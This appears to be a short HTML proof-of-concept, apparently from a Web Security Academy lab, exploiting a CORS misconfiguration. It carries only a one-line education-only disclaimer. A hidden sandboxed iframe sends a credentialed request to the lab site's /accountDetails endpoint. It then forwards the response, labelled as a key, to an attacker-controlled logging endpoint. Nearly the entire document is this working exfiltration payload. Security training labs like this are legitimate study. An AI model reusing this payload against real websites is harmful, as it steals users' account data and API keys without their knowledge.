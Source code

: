 *This information is only for the purposes of education and skills development.*

`<html>`
    `<body>`
        `<iframe style="display: none;" sandbox="allow-scripts" srcdoc="`
        `<script>`
            `var xhr = new XMLHttpRequest();`
            `var url = 'https://ac371f531f693ef3c07b84de00630017.web-security-academy.net'`

            `xhr.onreadystatechange = function() {`
                `if (xhr.readyState == XMLHttpRequest.DONE) {`
                    `fetch('http://127.0.0.1:5555/log?key=' + xhr.responseText)`
                `}`
            `}`

            `xhr.open('GET', url + '/accountDetails', true);`
            `xhr.withCredentials = true;`
            `xhr.send(null);`
        `</script>"></iframe>`
    `</body>`
`</html>`